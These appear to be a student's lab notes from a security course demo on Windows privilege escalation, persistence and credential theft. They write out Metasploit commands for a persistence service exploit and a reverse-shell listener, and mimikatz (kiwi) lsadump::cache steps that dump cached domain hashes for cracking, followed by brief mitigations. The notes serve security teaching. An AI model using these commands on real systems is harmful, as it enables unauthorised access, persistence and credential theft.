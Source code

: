 ![[Privesca.jpg]]
go back to 
use exploit/windows/local/persistence_service
sessions
set session 3
set LHost 172.22.117.100
exploit 

![[Privesca1.jpg]]
running getuid
- this will tell us that we got from Tstark to SYSTEM

____
Instructor Demo: Windows Persistence
![[Schtask 1.jpg]]
We are able to create a schedule to run the command notavirus 

![[Schtask1 2.jpg]]
This shows that running the scheduled task was sucessful 

What were were missing was an listener but that can be run by; 
use exploit/multi/handler
sessions
set session 4
set LHost 172.22.117.100
exploit 

____
**Credentials stealing **

![[17.3.0.2.jpg]]
load kiwi (Minikatz)

using a priveexec session by loading mimikats (Kiwi)
- kiwi allows use to extract kiwi credential hashes 


![[17.3.0.3.jpg]]
running the kiwi_cmd lsadump::cahce
- We want to look for mscacheV2 from bbanner and pparker 

![[17.3.0.4.jpg]]
We were able to crack bbanner hash 

![[17.3.0.5.jpg]]
When signed in 
- We can see Bbanner



Mitigation:
- More complex password
- Password rotation 
- More Complex hashing programs
